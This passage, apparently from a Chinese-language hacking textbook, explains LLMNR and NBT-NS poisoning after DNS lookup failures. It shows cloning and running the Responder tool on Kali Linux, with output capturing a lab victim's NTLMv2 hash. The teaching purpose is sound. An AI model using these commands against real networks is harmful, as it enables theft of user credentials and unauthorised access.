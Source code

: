 DNS 服务是域控制器的关键部分。它允许域中的计算机找到网络上其他计算机的 IP 地址。例如，一个文件服务器可能包含一个共享的网络文件夹，叫做*//Patient Records/*。当用户在文件资源管理器中输入*//PatientRecords/*时，操作系统将与域控制器的 DNS 服务器通信，以找到该文件服务器的 IP 地址。如果 DNS 服务包含*//PatientRecords/*的条目，它将返回相应的 IP 地址。然后，文件资源管理器将尝试连接到该服务器并访问文件（前提是它有权限这么做）。

然而，如果 DNS 查询失败——例如，如果用户输入错误的名称，可能忘记了*s*，而输入了*//PatientRecord/*——操作系统将回退到一个不太安全的协议，称为*链路本地多播名称解析（LLMNR）*，以发现网络中可以响应请求的机器。LLMNR 是一种广播协议，因此网络中的任何机器都可以响应请求。这使得攻击者可以通过恶意信息进行响应，这种攻击被称为*LLMNR 中毒*。图 15-3 展示了 LLMNR 中毒攻击的步骤。

![image](img/ch15fig03.jpg)

*图 15-3：DNS 失败如何导致不安全的 LLMNR 查询*

受害者生成 DNS 请求，该请求被发送到域控制器 ➊。域控制器的 DNS 服务告诉受害者找不到请求的条目 ➋，于是受害者的机器转而使用 LLMNR 协议。它广播一条消息，询问是否有机器拥有*//PatientRecord/*文件夹 ➌。攻击者将以类似“我可以帮忙，但你需要进行身份验证。请发送给我你的 NTLM 哈希”这样的消息进行回应 ➍。如果受害者的机器响应了该消息，那么你就捕获到了用户的 NTLM 密码哈希。

如果 LLMNR 失败，客户端将回退到不太安全的协议 Netbios 名称服务（NBT-NS）。LLMNR 和 NBT-NS 并不是唯一易受这种类型的中毒攻击的协议。假设攻击者执行了 ARP 欺骗攻击，并伪装成 DNS 服务器。他们随后可以捕获正确 DNS 查询中的 NTLM 哈希值。

你可以使用`Responder`工具执行这些攻击。它允许你恶意响应各种网络协议并捕获相关的哈希值。你可以通过将其 GitHub 仓库克隆到你的 Kali Linux 虚拟机来获取`Responder`：

```
kali@kali:~$ git clone https://github.com/lgandx/Responder
```

在你的 Kali Linux 虚拟机上运行`Responder`启动该工具。然后，在 Windows 虚拟机中输入一个虚拟文件夹，比如*//PatientRecords/*：

```
kali@kali:~/Responder$ sudo python3 Responder.py -I eth0 -v

...

[+] Poisoners:

    LLMNR                      [ON]

    NBT-NS                     [ON]

    DNS/MDNS                   [ON]

...

   [+] Listening for events...

   [HTTP] Sending NTLM authentication request to 10.0.1.26

   [HTTP] GET request from: 10.0.1.26        URL: /

   [HTTP] Host             : patientrecord

   [HTTP] NTLMv2 Client   : 10.0.1.26

   [HTTP] NTLMv2 Username : DESKTOP-AB3A4NG\Hacker1
➊ [HTTP] NTLMv2 Hash     : Hacker1::DESKTOP-AB3A4NG:XXXXXXXXXX...........
```